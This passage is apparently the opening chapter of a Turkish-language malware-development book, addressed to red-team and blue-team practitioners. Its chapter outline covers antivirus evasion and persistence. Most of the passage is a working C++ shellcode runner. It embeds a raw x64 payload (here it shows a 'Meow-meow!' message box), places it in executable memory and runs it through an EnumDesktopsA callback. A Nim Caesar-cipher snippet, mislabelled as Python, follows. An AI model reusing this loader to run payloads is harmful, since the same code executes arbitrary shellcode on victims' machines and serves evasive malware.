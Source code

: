 \newpage
\subsection{2. zararlı yazılım geliştirme nedir?}\label{2. zararlı yazılım geliştirme nedir?}

﷽

İster Red Team ister Blue Team uzmanı olun, zararlı yazılım geliştirme tekniklerini ve yöntemlerini öğrenmek, gelişmiş saldırılar hakkında en kapsamlı bakış açısını sunar. Ayrıca, klasik zararlı yazılımların çoğu genellikle Windows ortamında yazıldığından, bu süreç Windows geliştirme konusunda pratik bilgi sağlar.    

Bu kitaptaki çoğu eğitim, `Python` ve `C/C++` programlama dillerine derin bir hakimiyet gerektirir:

```cpp
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

int main() {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  return 0;
}
```

Bazen Nim programlama dilinde yazılmış bazı kodları anlamamız gerekebilir:    

```python
import strutils

proc caesar(s: string, k: int, decode = false): string =
  var k = if decode: 26 - k else: k
  result = ""
  for i in toUpper(s):
    if ord(i) >= 65 and ord(i) <= 90:
      result.add(chr((ord(i) - 65 + k) mod 26 + 65))

let msg = "The quick brown fox jumped over the lazy dogs"
echo msg
let enc = caesar(msg, 11)
echo enc
echo caesar(enc, 11, decode = true)
```

Kitabın ana yapısı beş (4 + 1 bonus) bölüme ayrılmıştır:  
- Zararlı yazılım geliştirme teknikleri ve yöntemleri     
- Antivirüs atlatma yöntemleri    
- Kalıcılık teknikleri   
- Zararlı yazılımlar, Kriptografi, Araştırma     
- Linux zararlı yazılım geliştirmeye giriş      

Kitaptaki tüm içerik, [blogumdaki](https://cocomelonc.github.io/) yazılara dayanmaktadır.    

Sorularınız olursa, bana [e-posta](mailto:cocomelonkz@gmail.com) yoluyla ulaşabilirsiniz.      

Benim GitHub sayfam: [https://github.com/cocomelonc](https://github.com/cocomelonc)    